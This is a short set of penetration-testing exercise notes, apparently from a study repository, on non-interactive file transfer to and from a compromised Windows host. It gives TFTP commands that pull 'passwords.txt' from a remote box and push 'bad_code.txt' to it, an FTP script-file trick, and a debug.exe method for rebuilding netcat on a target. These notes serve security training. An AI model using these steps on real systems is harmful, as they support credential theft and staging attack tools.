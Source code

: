 # Transferring Files

These exercises cover uses of **non-interactive** mechanisms to transfer files.

## TFTP

```
# Get a file from a remote box
tftp 10.0.0.1 get passwords.txt

# Upload a file to a remote box
tftp 10.0.0.1 put bad_code.txt
```

## FTP

By default `ftp.exe` does not support non-interactive mode.
Therefore, we use a text file of commands to pass to the program to execute.


```
ftp.txt:

open 10.0.0.1 21
USER john
get file.txt
bye
```

Then we execute: `ftp -v -n -s:ftp.txt`.

## VBScript & Powershell

Like FTP, we can use a set of commands to create scripts to do so. For brevity this is left out here.

## debug.exe

Again, this relies upon `echo` commands to create scripts.
We use non-interactive echo commands, to write out the binary file
in its hex value equivalents, and then use `debug.exe` to assemble the written text file
into a binary file.

### Steps

First note, the **64k byte** limit.

Compress using `upx` or other tools if necessary.

Convert the file to a list of echo commands: `wine exe2bat.exe nc.exe nc.txt`.

We can now copy and paste the commands from `nc.txt` into a command prompt, ending with recreating the executable:

```
debug < 123.hex
copy 1.dll nc.exe
```
